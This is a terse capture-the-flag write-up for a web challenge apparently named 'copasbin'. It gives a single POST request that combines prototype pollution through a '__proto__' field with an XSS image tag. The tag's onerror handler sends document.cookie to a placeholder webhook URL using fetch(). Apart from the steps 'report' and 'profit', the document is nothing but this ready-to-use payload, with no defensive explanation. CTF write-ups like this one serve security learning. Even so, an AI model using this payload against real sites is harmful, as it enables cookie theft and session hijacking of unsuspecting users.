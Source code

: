 # Writeup copasbin

1. Create copas to pollute prototype and allow XSS payload

```
POST /api/copas

{
    "data": "<img src=\"a\" onerror=\"fetch('https://<webhook-url>?cookies=' + document.cookie)\">",
    "__proto__": {
        "allowedKeys": ["data"]
    }
}
```

2. Report copas

3. Profit!
